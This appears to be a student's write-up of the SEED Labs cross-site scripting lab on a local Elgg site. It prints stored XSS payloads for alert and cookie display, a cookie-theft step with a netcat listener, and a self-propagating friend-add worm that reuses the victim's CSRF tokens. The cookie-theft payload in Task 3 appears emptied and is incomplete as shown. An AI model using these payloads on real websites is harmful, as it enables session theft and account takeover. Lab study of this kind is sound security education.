









# Week 10: SEED Labs – Cross-Site Scripting (XSS) Attack Lab

## Lab Environment Setup

> To setup the lab environment we ran a docker container with a MySQL database and another one with the web app Elgg that we would use in this lab.
>
> We also used the "HTTP Header Live" add-on to inspect HTTP Headers on Firefox.
> 

## Task 1: Posting a Malicious Message to Display an Alert Window

> We first logged in as alice with the credentials that were given to us (user:alice | pass:seedalice).
> Then we went to our profile, clicked on Edit profile and selected the HTML format option and changed alice "About me" section to:

```javascript
<script>alert(’XSS’);</script>
```

> 
>
> Then if anyone enter alice profile an alert would appear in their browser:
> 

## Task 2: Posting a Malicious Message to Display Cookies

> In this task we needed to replace 'XSS' in the alert to the page cookies.
> This was performed by changing with HTML the "About me" section of alice to :

```javascript
<script>alert(document.cookie);</script>
```

> 
>
> Then if anyone enters alice profile an alert would appear in their browser with their own cookies:
> 

## Task 3: Stealing Cookies from the Victim’s Machine

> The previous attack was not very useful because only the user would see their own cookies, but in this task the objective was to send the cookies user through an HTTP request so that we could get those cookies that are very valuable because they allow us to make XSS and CRSF attacks.
>
> To achieve this we changed with HTML the "About me" section of alice to :

```javascript
<script>document.write('');
</script>
```

> 
>
> Then if anyone enters alice profile then the image was gonna be retrieved from the src that we wrote so that they would send a GET request to that IP with the cookies appended.
>
> To test this we logged in as charlie and entered in alice profile:
> 
>
> Then the attacker, in this case alice, would use netcat to listen for the connection on the port 5555 using :

```bash
nc -lknv 5555
```

> 
> And alice would have access to charlie's cookies.

## Task 4: Becoming the Victim’s Friend

> In this task we would recreate the attack Samy did to MySpace in 2005. We need to create a worm that adds Samy as a friend to any other user that visits samy's profile.
>
> First we needed to understand how friend requests were made in Elgg so we logged in as alice and added samy as a friend and used "HTTP Header Live" on Firefox to see the request:

```text
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669737910&__elgg_token=Apj7qy_kXRRwx23Uc07PmA&__elgg_ts=1669737910&__elgg_token=Apj7qy_kXRRwx23Uc07PmA
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=1nova5e38pbrm3j5ofi3oq50r2

GET: HTTP/1.1 200 OK
Date: Tue, 29 Nov 2022 16:06:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 388
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
---------------------
```

> We analyzed this request and figured that it is a HTTP GET request for :
>
> * Path: /action/friends/add
> * Query:
>   * friend=user_id
>   * elgg_ts=timestamp
>   * elgg_token=token
>
> We noticed also that the elgg_ts and elgg_token were repeated and that samy user_id was 59.
>
> With this information we logged in as samy and changed the "About me" section:

```javascript
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
var sendurl2 = sendurl + ts +token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl2, true);
Ajax.send();
}
</script>
```

> We needed to put the repetition of ts and token on another sendurl because if we put ts+token+ts+token it would become ts+ts+token+token in the HTTP request.
>
> 
>
> Then we logged in as charlie and verified that we had no friends.
> 
> Then we went to samy's profile page and as soon as we entered the add friend button was already set as remove friend indicating that we were already friends with samy even though we didn't made a friend request on behalf of charlie:
> 
> 
>
> * Question 1: Line 1 and 2 are needed to perform a successful friend request because the HTTP request requires the timestamps and the user's token which is unique so we need to dinamically get this information.
> * Question 2: No it wouldn't be possible to perform this attacks because if we are in Editor mode the symbols like > and < would become &gt and &lt which would mean that the browser would not interpret that as valid html code to run the javascript therefore we wouldn´t be able to perform all these attacks.
